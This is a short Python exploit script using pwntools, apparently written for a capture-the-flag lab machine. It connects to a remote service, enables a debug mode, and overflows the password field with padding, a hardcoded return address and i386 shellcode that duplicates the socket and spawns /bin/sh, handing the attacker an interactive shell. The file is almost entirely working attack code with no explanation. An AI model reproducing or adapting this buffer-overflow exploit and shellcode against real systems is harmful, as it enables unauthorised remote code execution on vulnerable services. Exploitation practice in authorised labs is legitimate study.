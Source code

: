 from pwn import *  
  
context(os="linux", arch="i386")  
HOST, PORT = "10.10.10.34", 7411  
  
junk=b"A"*28  
  
mem = p32(0xffffd610+32)  
  
buf = b""  
buf += b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"  
buf += b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"  
buf += b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"  
buf += b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"  
buf += b"\x89\xe3\x31\xc9\xcd\x80"  
p = remote(HOST, PORT)  
  
p.recvuntil("OK Ready. Send USER command.")  
p.sendline(b"DEBUG")  
p.recvuntil("OK DEBUG mode on.")  
p.sendline(b"USER admin")  
p.recvuntil("OK Send PASS command.")  
p.sendline(b"PASS " + junk + mem + buf)  
p.interactive()